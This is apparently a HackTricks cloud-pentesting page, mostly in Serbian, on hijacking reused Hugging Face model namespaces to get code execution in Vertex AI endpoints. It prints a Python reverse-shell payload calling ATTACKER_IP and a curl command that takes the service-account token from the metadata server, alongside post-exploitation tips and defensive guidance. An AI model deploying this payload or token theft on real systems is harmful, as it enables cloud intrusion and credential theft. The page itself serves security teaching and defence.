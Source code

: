 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenarij

- Vertex AI Model Garden omogućava direktno postavljanje mnogih Hugging Face (HF) modela.
- HF model identifiers are Author/ModelName. Ako je author/org na HF obrisan, isto ime autora može ponovo registrovati bilo ko. Napadači potom mogu kreirati repo sa istim ModelName na legacy path.
- Pipelines, SDKs, or cloud catalogs koji povlače resurse samo po imenu (bez pinovanja/integriteta) će povući attacker-controlled repo. Kada se model deploy-uje, loader code iz tog repo-a može se izvršiti unutar Vertex AI endpoint kontejnera, dajući RCE sa dozvolama endpointa.

Two common takeover cases on HF:
- Ownership deletion: Stari put vraća 404 dok neko ponovo ne registruje autora i ne objavi isti ModelName.
- Ownership transfer: HF issues 307 redirects sa starog Author/ModelName na novog autora. Ako stari autor kasnije bude obrisan i ponovo registrovan od strane napadača, redirect lanac je prekinut i attacker’s repo služi na legacy path.

## Identifying Reusable Namespaces (HF)

- Old author deleted: stranica autora vraća 404; model path može vraćati 404 dok ne dođe do takeover-a.
- Transferred models: stara putanja modela vraća 307 ka novom vlasniku dok stari autor postoji. Ako stari autor bude kasnije obrisan i ponovo registrovan, legacy path će pokazivati na attacker’s repo.

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## End-to-end tok napada protiv Vertex AI

1) Otkrivanje ponovo iskoristivih model namespace-ova koje Model Garden prikazuje kao deployable:
- Pronađite HF modele u Vertex AI Model Garden koji i dalje imaju oznaku “verified deployable”.
- Proverite na HF da li je originalni autor obrisan ili je model prebačen i stari autor naknadno uklonjen.

2) Ponovo registrovati obrisanog autora na HF i ponovo kreirati isti ModelName.

3) Objavite maliciozni repo. Uključite kod koji se izvršava pri učitavanju modela. Primeri koji se često izvršavaju tokom HF učitavanja modela:
- Side effects u __init__.py repoa
- Custom modeling_*.py ili processing kod na koji se poziva iz config/auto_map
- Code paths that require trust_remote_code=True u Transformers pipelines

4) Vertex AI deployment nasleđenog Author/ModelName sada povlači napadačev repo. Loader se izvršava unutar Vertex AI endpoint containera.

5) Payload uspostavlja pristup iz endpoint okruženja (RCE) sa privilegijama endpointa.

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Napomene
- Loaders u stvarnom svetu variraju. Mnoge Vertex AI HF integracije kloniraju i importuju repo module koji su referencirani u model’s config (npr. `auto_map`), što može pokrenuti izvršavanje koda. Neke upotrebe zahtevaju `trust_remote_code=True`.
- Endpoint tipično radi u posvećenom containeru sa ograničenim opsegom, ali predstavlja validan početni foothold za pristup podacima i lateralno kretanje u GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Kada kod radi unutar endpoint container-a, razmotrite:
- Enumerisanje environment varijabli i metadata za kredencijale/tokene
- Pristupanje prikačenom skladištu ili montiranim artefaktima modela
- Interakcija sa Google APIs koristeći identitet service account-a (Document AI, Storage, Pub/Sub, itd.)
- Perzistencija u artefaktu modela ako platforma ponovo povuče repo

Enumerišite instance metadata ako su dostupne (zavisno od containera):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Odbrambene smernice za korisnike Vertex AI

- Pin models by commit u HF loaders da sprečite tihu zamenu:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Preslikajte proverene HF modele u pouzdano interno skladište/registar artefakata i raspoređujte ih odatle.
- Neprestano skenirajte kodne baze i konfiguracije zbog hardkodovanih Author/ModelName koji su izbrisani/prebačeni; ažurirajte na nove namespace-ove ili pinujte po commit-u.
- U Model Garden, verifikujte poreklo modela i postojanje autora pre raspoređivanja.

## Heuristike prepoznavanja (HTTP)

- Izbrisan autor: stranica autora vraća 404; nasleđena putanja modela vraća 404 dok ne dođe do preuzimanja.
- Prebačen model: nasleđena putanja vraća 307 ka novom autoru dok stari autor postoji; ako je stari autor kasnije obrisan i ponovo registrovan, nasleđena putanja poslužuje sadržaj napadača.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Međureferencije

- Pogledajte širu metodologiju i napomene o supply-chain:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Izvori

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
